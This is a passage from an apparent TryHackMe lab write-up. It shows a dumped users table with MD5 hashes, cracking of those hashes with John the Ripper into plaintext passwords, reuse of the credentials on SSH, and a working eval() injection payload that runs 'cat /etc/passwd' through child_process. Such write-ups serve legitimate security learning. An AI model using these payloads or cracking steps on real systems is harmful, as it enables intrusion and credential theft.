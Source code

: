 ```bash
MySQL [timetracking]> SELECT * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
```

I extracted the hashes and used **John the Ripper** with the rockyou wordlist to crack them:

```bash
┌──(ghost㉿kali)-[~/tryhackme/umbrella]
└─$ john pass.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (chris-r)     
sunshine1        (jill-v)     
Password1        (claire-r)     
sandwich         (barry-b)     
4g 0:00:00:00 DONE (2025-07-17 09:29) 400.0g/s 864000p/s 864000c/s 1363KC/s allstars..brigitte
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

We can try one by one which pair of cred will work on Node.js application(port 8080) or maybe on SSH(port 22).

The valid credential are: `claire-r: Password1` This worked on both node.js application and also on ssh.

---

### Initial Access via node.js app running on docker container

I logged in via the creds we get.

And it looks like a timetracking application, we can put integers in that input and can also use mathematical expressions.

If we look back into our app.js file extracted from docker image layers, the `/time` route used `eval()` unsafely on user input:

<img width="1902" height="422" alt="image 3" src="https://github.com/user-attachments/assets/14038f89-e826-49f3-a6c5-b5265756cad1" />

This allows authenticated users to achieve **Remote Code Execution (RCE)** by submitting crafted input such as:

With `arguments[1].end(require('child_process').execSync('cat /etc/passwd'))`  we are able to retrieve the `/etc/passwd` file. 
